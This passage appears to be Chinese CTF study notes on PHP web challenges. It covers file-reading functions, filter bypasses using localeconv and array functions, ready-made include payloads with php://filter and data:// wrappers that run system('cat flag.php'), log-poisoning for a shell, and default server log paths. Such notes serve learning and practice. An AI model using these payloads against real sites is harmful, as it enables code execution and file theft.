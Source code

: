 cut:用于显示每行从开头算起 num1 到 num2 的文字
-b ：以字节为单位进行分割。这些字节位置将忽略多字节字符边界，除非也指定了 -n 标志。
-c ：以字符为单位进行分割。</code></pre>

花式读文件：<a href="https://www.cnblogs.com/linuxsec/articles/10741588.html" target="_blank" rel="noreferrer noopener" rel="nofollow" >https://www.cnblogs.com/linuxsec/articles/10741588.html</a>

php函数操作：

<pre class="wp-block-code"><code>scandir('.') 扫描当前目录
localeconv() 函数返回一数组。而数组第一项就是.(用来绕过.过滤)
pos()/current() 返回数组第一个值</code></pre>

数组操作函数：

<pre class="wp-block-code"><code>end() 数组指针指向最后一位
next() 数组指针指向下一位
array_reverse() 将数组颠倒
array_rand() 随机返回数组的键名
array_flip() 交换数组的键和值</code></pre>

读取文件函数：`file_get_content()` 、`readfile()`、`highlight_file()`、`show_source()`、`var_dump(file('filename'))`、`print_r(file('filename'))`

一些情况下也可通过`include`、`require`、`include_once`、`require_once`读取文件内容。

过滤分号时可以使用`?>`替代`;`

过滤括号时可以使用`include`和伪协议的配合

<pre class="wp-block-code"><code>因为include包含php文件不会在页面显示出来
所以可以配合伪协议将flag.php打印,而且新的参数不会受过滤影响</code></pre>

常用payload:

<pre class="wp-block-code"><code>c=include$_GET&#91;"a"]?&gt;&a=php://filter/read=convert.base64-encode/resource=flag.php
c=include$_GET&#91;'a']?&gt;&a=data://text/plain,&lt;?php system("cat flag.php");?&gt;
c=include$_GET&#91;a]?&gt;&a=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZmxhZy5waHAiKTs/Pg==</code></pre>

日志包含获取Shell，如果访问一个不存在的资源时，如http://www.xxxx.com/<?php phpinfo(); ?>,则会记录在日志中，但是代码中的敏感字符会被浏览器转码，可以通过burpsuit绕过编码写入apache的日志文件，前提是得知道日志文件的存储路径。

日志默认路径

<pre class="wp-block-code"><code>(1) apache+Linux日志默认路径
/etc/httpd/logs/access.log或者/var/log/httpd/access.log
n
(2) apache+win2003日志默认路径
D:\xampp\apache\logs\access.log或者D:\xampp\apache\logs\error.log

(3) IIS6.0+win2003默认日志文件
C:\WINDOWS\system32\Logfiles

(4) IIS7.0+win2003 默认日志文件
%SystemDrive%\inetpub\logs\LogFiles

(5) nginx 日志文件
日志文件在用户安装目录logs目录下，如/usr/local/nginx,日志目录为/usr/local/nginx/logs</code></pre>
